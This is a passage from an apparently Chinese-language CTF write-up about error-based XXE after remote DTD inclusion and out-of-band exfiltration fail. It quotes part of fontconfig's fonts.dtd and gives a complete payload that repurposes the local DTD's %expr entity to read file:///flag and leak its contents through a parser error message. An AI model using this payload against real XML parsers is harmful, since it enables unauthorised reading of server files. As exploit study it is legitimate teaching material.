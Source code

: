 经fuzz发现无法无法访问包含远程服务器dtd文件，xml正常解析无回显~ 至此就确定了远程包含DTD、带外传输数据都是失效的，这时我们可以尝试利用基于错误的本地dtd包含利用。


/usr/share/xml/fontconfig/fonts.dtd:

```xml
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```

Payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>any text</message>
```

![](/assets/images/move/2019-08-25-22-11-57.png)
